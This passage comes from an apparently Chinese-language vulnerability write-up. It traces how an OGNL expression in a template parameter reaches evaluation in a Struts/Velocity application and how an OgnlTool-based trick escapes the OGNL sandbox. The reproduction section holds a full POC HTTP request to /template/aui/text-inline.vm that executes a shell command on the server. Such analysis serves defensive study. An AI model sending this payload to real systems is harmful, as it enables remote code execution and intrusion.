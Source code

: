 1. 调用 ica.setCurrentResource(this); 将当前模板对象设置为 ica 的当前资源。这是为了让 ica 知道当前正在处理的模板资源。  
  
1. 最后，通过调用 ((SimpleNode)this.data).render(ica, writer); 进行模板渲染  
  
省略中间的部分渲染过程，跟进到ASTReference#execute()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYIScMmAWp5R18CnT5OJibcq3WdPJSmMBrtVhCclFmgic6YWmM5qCv5dUA/640?wx_fmt=png&from=appmsg "")  
  
这里从上下文中获取OgnlValueStack，继续跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYn1K0NbCWNk5CibK4NBbkvBiaEQ7dY7vtk3lOTAImdoARq8icKDJWnJ0Fg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WY4ZLGWBknfLuibqRxLXibNbOBCiaE44AuRJs85G0n7xM5yzccMiaB1fHYUw/640?wx_fmt=png&from=appmsg "")  
  
这里从请求中获取到参数，然后通过Object obj = method.invoke(o, params);执行，继续跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYWjtXrzDibB3RZgAOiag3dPcqvb97LUlCVS9vp8mPlkXvS0T8bBaYLNyA/640?wx_fmt=png&from=appmsg "")  
  
经过几层invoke调用后，来到了最终vm文件模版的位置——OgnlValueStack.findValue()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYphha4HY0DkjjL29qtaVlv9ydAictiacZ5wls0Gib1lfgwLyVO9cppkGvA/640?wx_fmt=png&from=appmsg "")  
  
随后，传给label参数的OGNL表达式语句被执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYKayI5jjZmB9oGDy6IxZoI8NOLvF8RKEgcQAMNKGaN8aNlzIrLXWXzw/640?wx_fmt=png&from=appmsg "")  
# 如何构造RCE  
  
由这篇文章可得知：https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context  
  
对于Velocity模版引擎，可以使用如下方法：  
- .KEY_velocity.struts2.context -> (StrutsVelocityContext)  
  
- ognl (org.apache.struts2.views.jsp.ui.OgnlTool)  
  
- struts (org.apache.struts2.views.velocity.result.VelocityStrutsUtils)  
  
org.apache.struts2.views.jsp.ui.OgnlTool 类在没有 OgnlContext 的情况下调用了 Ognl.getValue()。需要注意的是，该类属于 OGNL 库，而不是 Struts 的一部分。因此，这个"findValue"调用在 Struts 的沙箱限制之外运行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYQYYPQNP3foOO1ibJqYcibd46ibARmv0t8YpdeSI08kr4Oo1fY2ETI8wZA/640?wx_fmt=png&from=appmsg "")  
# 复现过程  
1. 网站首页如下图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYQrndaRMgIHVaQP6MUqwxFBmPvol56W40XQdS6y6RHsibG1qOekYWCMA/640?wx_fmt=png&from=appmsg "")  
1. 使用如下POC进行漏洞复现  
  
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3pJyVE5b9mhhmpjA43q9WYf0sRIibxvMUzPAEa68psWFvRa57L8B6cpWIgegUiaQtkoEwcSYk629GA/640?wx_fmt=png&from=appmsg "")  
  
  
